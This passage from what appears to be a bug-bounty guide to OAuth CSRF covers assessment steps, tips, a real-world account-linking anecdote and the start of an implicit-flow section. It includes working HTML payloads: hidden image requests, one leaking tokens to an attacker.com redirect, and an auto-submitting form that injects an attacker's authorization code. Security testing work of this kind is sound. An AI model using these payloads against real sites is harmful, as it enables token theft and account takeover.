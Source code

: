 2. **Vulnerability Assessment**
   - **Missing CSRF Protection**: Check if CSRF tokens are absent
   - **Improper CSRF Validation**: Test if CSRF tokens are properly validated
   - **Bypassing CSRF Protection**: Look for ways to bypass existing protections

3. **Exploitation Techniques**

   - **CSRF on Authorization Endpoint**:
     ```html
     <img src="https://oauth-provider.com/authorize?client_id=CLIENT_ID&redirect_uri=https://attacker.com&response_type=token&scope=email" style="display:none">
     ```

   - **CSRF on Token Exchange Endpoint**:
     ```html
     <form action="https://client-app.com/callback" method="POST" id="csrf-form">
       <input type="hidden" name="code" value="ATTACKER_CODE">
     </form>
     <script>document.getElementById('csrf-form').submit();</script>
     ```

   - **CSRF on Account Linking**:
     ```html
     <img src="https://client-app.com/link-account?provider=google" style="display:none">
     ```

4. **Post-Exploitation**
   - Demonstrate how the CSRF attack leads to unauthorized actions
   - Show the impact on user data or account security

### Real-World Example

A researcher found that a popular project management tool allowed users to link their accounts with various OAuth providers. The account linking process was vulnerable to CSRF because it didn't include any CSRF protection. The researcher created a simple HTML page that, when visited by a logged-in user, would initiate the account linking process with the attacker's OAuth account, effectively giving the attacker access to the victim's project management account.

### Bug Bounty Tips

- Look for OAuth flows that don't use the state parameter or other CSRF protections
- Test account linking and unlinking functionality
- Check if the application validates the origin of OAuth requests
- Document the full impact by showing how an attacker could gain unauthorized access

## Implicit Flow Vulnerabilities

The implicit flow is particularly vulnerable to various attacks due to its design of exposing tokens directly to the browser.

### Step-by-Step Exploitation Guide

1. **Reconnaissance Phase**
   - Identify applications using the implicit flow
   - Analyze how tokens are handled and validated
   - Check for additional security measures
